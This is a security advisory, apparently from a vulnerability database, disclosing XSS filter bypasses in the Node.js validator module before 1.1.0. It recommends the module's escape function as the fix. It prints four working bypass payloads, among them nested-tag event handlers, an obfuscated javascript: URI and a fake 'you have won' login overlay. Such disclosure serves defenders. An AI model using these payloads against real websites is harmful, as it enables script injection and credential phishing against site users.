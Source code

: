 ```yaml
---
title:  Multiple XSS Filter Bypasses
author:  Neal Poole, Krzysztof Kotowicz
module_name: validator
publish_date: Fri Jul 05 2013 12:29:10 GMT-0700 (PDT)
cves: "[]"
vulnerable_versions: "< 1.1.0"
patched_versions: ">= 1.1.0"
...
```


## Overview:
The validator module for Node.js contains functionality meant to filter potential XSS attacks (a filter called xss). Several ways to bypass the filter were discovered. In general, because the function’s filtering is blacklist-based it is likely that other bypasses will be discovered in the future. Developers are encouraged not to use the xss filter function in this package.

## Details:
Various inputs that could bypass the filter were discovered:

Improper parsing of nested tags:

```
<s <onmouseover="alert(1)"> <;s onmouseover="alert(1)">This is a test</s>
```

Incomplete filtering of javascript: URIs:

```
<a href="javascriptJ a V a S c R iPt::alert(1)" "<s>">test</a>
```

UI Redressing:

```
<div style="z-index: 9999999; background-color: green; width: 100%; height: 100%">
<h1>You have won</h1>Please click the link and enter your login details:
<a href="http://example.com/">http://good.com</a>
</div>
```

Bypass via Nested Forbidden Strings:

```
<scrRedirecRedirect 302t 302ipt type="text/javascript">prompt(1);</scrRedirecRedirect 302t 302ipt>
```

Additional bypasses were discovered by Krzysztof Kotowicz in 2012 when auditing CodeIgniter's XSS filtering function, which this code was based off of.

## Recommendations:
If you are a developer currently using the xss filter function from the validator package, you should consider replacing it with the escape filter function from the same package. This function replaces all instances of angle brackets (<, >), ampersands, and quotation marks, so no HTML tags will be processed.

## Reference:

- [XSS Filter Bypass in validator Node.js Module](https://nealpoole.com/blog/2013/07/xss-filter-bypass-in-validator-nodejs-module/)
- [CodeIgniter <= 2.1.1 xss_clean() Cross Site Scripting filter bypass](http://blog.kotowicz.net/2012/07/codeigniter-210-xssclean-cross-site.html)

 

